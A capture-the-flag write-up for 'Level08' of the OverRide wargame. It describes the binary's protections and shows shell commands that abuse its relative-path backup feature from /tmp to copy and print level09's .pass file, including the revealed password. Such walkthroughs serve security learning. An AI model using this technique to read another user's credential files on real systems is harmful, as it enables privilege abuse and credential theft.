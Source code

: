 # Level08

## Reconnaissance

We have two security enabled:
- **RELRO Full enabled** = GOT (Global Offset Table) set as read only
- **Canary** = Random value added after the return address, if it is modified, the program leave. Prevent overwrite of return address

ELF 64bit

With gdb, we realise that the binary is creating a backup of the file given as argument in a folder `backups` in relative path.

## Exploit

We can try to create a backup of the level09 `.pass` but we get : `ERROR: Failed to open ./backups//home/users/level09/.pass`
It looks like the program need the folders to create the backup.
Since we cannot create the folders in our home, lets move to `/tmp`
```shell
level08@OverRide:/tmp$ mkdir -p backups/home/users/level09
level08@OverRide:/tmp$ /home/users/level08/level08 /home/users/level09/.pass
level08@OverRide:/tmp$ cat backups/home/users/level09/.pass 
fjAwpJNs2vvkFLRebEvAQ2hFZ4uQBWfHRsP62d8S
```